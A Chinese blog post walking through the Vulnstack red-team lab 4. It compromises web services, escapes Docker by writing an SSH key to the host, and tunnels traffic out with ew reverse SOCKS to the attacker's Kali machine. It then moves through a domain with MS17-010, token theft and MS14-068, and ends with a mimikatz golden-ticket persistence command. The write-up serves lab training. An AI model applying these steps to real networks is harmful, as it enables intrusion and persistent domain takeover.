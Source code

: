 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习4
subtitle:   Vulnstack靶机学习4
date:       2020-02-22
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习4

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队评估（四）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

## Web
三个虚拟机文件，根据说明ubuntu上有三个应用开着，应该是docker的，三个都挺好拿shell的。  
一个是phpmyadmin的包含漏洞。  
![200217_1](/img/200217_phpinfo.png)  
一个是tomcat的。  
![200217_2](/img/200217_tomcat.png)  
直接put写就完事了。  
还有一个st2的。  
![200217_3](/img/200217_st2.jpg)  

## Docker逃逸
尝试试直接用脏牛。可惜不行。    
![200217_4](/img/200217_dockerfree.png)  
回过来看看能不能读写宿主机。  
![200217_5](/img/200217_dockerfree1.png)  
那就简单了，可以直接写个密钥上去，然后直接去连接。  
先挂载到docker内。  
![200217_16](/img/200217_mount.png)  
然后写isa。  
![200217_6](/img/200217_key.png)  
这样连上去还不能sudo。  
中间还有些步骤，修改passwd，shadow等文件的图丢了。。有问题的可以自行查阅相关内容。  
最后切换成root即可。  
![200217_7](/img/200217_root.jpg)  

## 内网
### 代理进入
有了ubuntu直接开代理就行，正向反向都行，但是后面在用msf的时候有点问题，meterpreter的session老是断连接，后来犯了就直接不用代理了这里就简单提一下。  
我用的是ew。  
正向代理：  
```
./ew  -s ssocksd -l 39555
```
然后在proxychain配置文件中加上这个sock5代理即可。  
反向代理的话：  
现在kali上执行  
```
ew -s rcsocks -l 39555 -e 39444
```
ubuntu上执行  
```
ew -s rssocks -d kali ip -e 39444
```
然后进入也是加上本地39555这个代理就行了。   
### 内网渗透
知道ip的情况下就不扫描了。  
直接ms17-010打就行了。  
![200217_8](/img/200217_ms17010.jpg)  
返回的是一个system的session。  
收集信息前要进行降权。  
![200217_9](/img/200217_token.jpg)  
直接用impersonate_token "DEMO\douser"或者直接窃取token。  
![200217_10](/img/200217_stealtoken.jpg)  
然后就是信息收集。  
网络配置看一下。  
在域内，demo.com，DNS应该是域控的ip。  
![200217_11](/img/200217_ipconfig.jpg)  
net view一下。  
![200217_12](/img/200217_netview.jpg)  
看下补丁，应该是没有打ms14-068的补丁。  
![200217_13](/img/200217_systeminfo.jpg)  
要利用还要知道域成员douser的密码，这里有两个选择，可以直接system下mimikatz，根据提示还有历史命令信息泄漏，翻了下ubuntu的历史命令，有密码，冲就完事了。  
![200217_14](/img/200217_history.png)  
机器桌面目录下有ms14-068，省的上传了。。。。直接利用。   
![200217_15](/img/200217_ms14-068.jpg)  
然后直接利用桌面的mimikatz导入生成的票据就完事了。  
![200217_17](/img/200217_mimi.jpg)  
然后再用访问域控。  
![200217_18](/img/200217_dir.jpg)  
到这里后面其实就是域维权内容了。因为过来的session实在是太tm脆弱了，后面我就没继续了。  
简单说一下即可。  
通过sc直接在域控上创建服务并且启动，用mimikatz直接导出krbtgt的hash，然后在域成员机器上用mimikatz再去伪造黄金票据就可以了。  
```
mimikatz “kerberos::golden /domain:domain /sid:domain sid /rc4:krbtgt NTLM Hash /user:username /ptt" exit
```
用户名任意。  
就可以在一段时间内维持域内权限了（krbtgt不更新密码即可）。  

## 参考
[https://www.anquanke.com/post/id/179623](https://www.anquanke.com/post/id/179623)  
[https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi](https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi)  
